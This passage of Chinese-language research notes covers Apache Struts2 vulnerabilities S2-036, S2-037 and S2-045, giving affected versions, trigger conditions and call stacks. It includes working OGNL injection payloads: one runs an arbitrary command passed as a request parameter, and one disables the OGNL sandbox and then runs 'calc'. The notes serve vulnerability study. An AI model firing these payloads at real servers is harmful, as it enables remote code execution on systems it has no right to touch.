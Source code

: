 ### [S2-036](https://cwiki.apache.org/confluence/display/WW/S2-036) *（S2-029 Bypass）*

触发条件

1. Struts 2.0.0 - 2.3.28.1

### [S2-037](https://cwiki.apache.org/confluence/display/WW/S2-037) *（S2-032同源）*

触发条件

1. Struts 2.3.20 - 2.3.28.1
1. 使用struts2-rest-plugin

作用域

1. 满足路由条件的action method *（正常的Restful请求，无视DynamicMethodInvocation）*

底层G点

`OgnlUtil.getValue()`

    [ PoC样本 ]
        #_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),#xx=123,#xx.toString.json?  // cmd为额外请求参数

    [ 关键调用栈 ]
        // 设置method
        -> org.apache.struts2.rest.RestActionMapper.getMapping()
        -> org.apache.struts2.dispatcher.mapper.ActionMapping.setMethod()
        // 获取和调用method
        -> org.apache.struts2.rest.RestActionInvocation.invoke()
        -> com.opensymphony.xwork2.DefaultActionInvocation.invokeAction()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

特点

1. 不需要启用DynamicMethodInvocation *（相对于S2-033的另一个处理分支流程）*

### [S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

触发条件

1. Struts 2.3.5 - 2.3.31, Struts 2.5 - 2.5.10

作用域

1. 任意action *（全局Dispatcher，优先于Interceptors链）*

底层G点

`LocalizedTextUtil.findText()`

    [ PoC样本 ]
        %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(@java.lang.Runtime@getRuntime().exec('calc'))}
